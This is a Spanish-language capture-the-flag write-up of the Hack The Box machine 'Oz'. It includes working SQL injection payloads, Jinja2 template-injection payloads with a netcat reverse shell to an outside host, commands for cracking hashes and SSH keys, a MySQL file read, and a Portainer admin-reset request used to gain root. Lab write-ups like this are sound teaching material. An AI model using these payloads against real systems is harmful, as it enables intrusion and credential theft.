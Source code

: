 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Oz                 |
| Os                     | Linux              |
| Difficulty             | Hard               |
| Points                 | 0                  |
| IP                     | 10.10.10.96        |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Oz/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.96
```

![nmap 1](/assets/images/Oz/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.96 -oG allPorts
```

![nmap2](/assets/images/Oz/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p80,8080 10.10.10.96 -oN targeted
```

![nmap3](/assets/images/Oz/nmap3.png)

Continuemos enumerando informacion de los sitios con whatweb. A simple viste la pagina en puerto 80 pide la autenticacion de un usuario y la de puerto 8080 te hace el login.

![whatweb](/assets/images/Oz/whatweb.png)

Vamos ahora a aplicar Fuzzing sobre la aplicacion de API.

```s
wfuzz -c -t 200 --hw=1,4 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.96/FUZZ
```

Vemos que en la ruta /users la comilla simple genera un error, por lo que podria significar que se puede aplicar un sqli.

![SQLI](/assets/images/Oz/sqli1.png)

Metemos el tipico or 1=1 -- - y si nos devuelve hasta un usuario. Ahora para poder enumerar mas usuarios podemos meter un or 1=1 limit 1,1. Podemos ahora insertar un usuario de la siguiente manera:

```sql
union select database() -- -
union select schema_name from information_schema.schemata limit 0,1; -- -
union select table_name from information_schema.tables where table_schema="ozdb" -- -
union select group_concat(column_name) from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" -- -
```

|   #   |     Database       |     
|:------|:-------------------|
| 0     | information_schema |
| 1     |    mysql           |
| 2     |    ozdb            | 
| 3     | performance_schema |

|   #   |     Tables ozdb    |     
|:------|:-------------------|
| 0     | tickets_gbw        |
| 1     |    users_gbw       |

|   #   |  Table users_gbw   |     
|:------|:-------------------|
| 0     |   id               |
| 1     |   username         |
| 2     |   password         |

Para iterar los usuarios

```bash
for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'or%201=1%20limit%20$i,1%20--%20-"; done | jq
```

![database name](/assets/images/Oz/database_name.png)

```s
curl -s -X GET "http://10.10.10.96/users/'union%20select%20group_concat(username,%22:%22,password)%20from%20ozdb.users_gbw--%20-" | jq
```

Para crackear los hashes encontrados:

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
#Si tenemos tarjeta grafica
hashcat -m 10900 -a 0 rockyou.txt --user
#wizard.oz  wizardofoz22
```

Ahora podemos entrar al panel del puerto 8080 con la contrasena encontrada.

Abriremos burpsuite para empezar a hacer pruebas con este formulario tickets e intentar un SSTI.

![Burp 1](/assets/images/Oz/response_test.png)

Como vemos que la respuesta de nuestra prueba se refleja tal cual lo escribimos, es posible hacer un ssti, tambien sabemos que el motor que usa es flask de python y por lo tanto podremos enumerar posibles cosas.

De acuerdo con maquinas anteriores que habiamos hecho, podemos intentar pasarle a la peticion una prueba para que interprete. Para mas informacion, en el siguiente<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection"> link.</a>
```py
{{7*7}}
```
![Burp 2](/assets/images/Oz/burp2.png)

Ahora podemos intentar insertar comandos con un:
```py
{{% get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/fib_trie").read() %}}
```
Ahora que ya sabemos que usaurio somos, y somos root, procedimos a meter un ifconfig y como no vemos la ip de la maquina objetivo significa que estamos en un docker.

Podemos ver ahora los puertos expuestos realmente con un
```py
{%{ get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/tcp").read() %}}
```
La respuesta de los puertos estara en hexadecimal y para verlos hacemos un:

```bash
echo "8C65
1F90
E412" | while read port; do echo "[+] Puerto $port -> $((0x$port))"; done
```

Ahora lo que intentaremos es inyectar un archivo malicioso con el script:
```py
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.29 443 >/tmp/f',shell=True) }}
```

Vemos que en la ruta /containers/database hay credenciales para quizas otro contenedor

![Database creds](/assets/images/Oz/database_creds.png)

Dentro de este contenedor, existe una ruta en el /.secret, dentro de este directorio vemos un archivo de configuracion del knock el cual sirve para establecer politicas. Hay una linea para abrir o cerrar el Openssh de acuerdo al portknocking, y para forzarlo haremos el siguiente comando:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh dorth@10.10.10.96
```

No funciono, asi que ahora podemos tambien listar las demas maquinas que tenemos enfrente con:

```s
for i in $(seq 1 254); do (ping -c 1 10.100.10.$i | grep "bytes from"&); done
```

Y para detectarles sus puertos, podemos lanzar un:

```s
for port in $(seq 1 65535); do (nc -nvz 10.100.10.4 $port); done
```

Como el unico puerto que tiene abierto es el de mysql, procedemos a conectarnos al servicio con las credenciales antes encontradas:

```s
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'show databases'
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'select load_file("/home/dorthi/.ssh/id_rsa")' | sed 's/\\n/\n/g'
```

Como tenemos ahora un id_rsa podemos volver a intentar ahora si

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96
```

Este id_rsa esta cifrado, asi que ahora para romper el cifrado podemos usar:

```s
ssh2john id_rsa > data
```

Ahora que tenemos un formato descifrable, usamos el siguiente comando, con las contrasenas encontradas para ver cual es la que sirve para esta clave:

```s
john --wordlist=pass data
#N0Pl4c3L1keH0me
```

Ahora tenemos acceso a la flag y para escalar privilegios, existe un contenedor que es para gestionar los contenedores en el puerto 9000, para usarlo solo usaremos:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96 -L 9000:172.17.0.2:9000
```

Ahora podemos visitar el portainer desde nuestro navegador con un localhost:9000, para esta version de portainer, la contrasena de admin se puede cambiar multiples veces con la siguiente peticion:

```s
curl -s -X POST "http://localhost:9000/api/users/admin/init" -H "Content-Type: application/json" -d '{"password": "rebick"}'
```

Ahora que tenemos acceso a esta interfaz, nos crearemos un contenedor con las siguientes caracteristicas para poder escribir sobre root.

![Container create](/assets/images/Oz/container_create.png)

Ahora solo tenemos que iniciar desde esta interfaz una shell con los privilegios que inicialmente nos da que son de root y dentro de rootfs tenemos el verdadero sistema operativo.

![root](/assets/images/Oz/root.png)

![Powned](/assets/images/Oz/powned.png)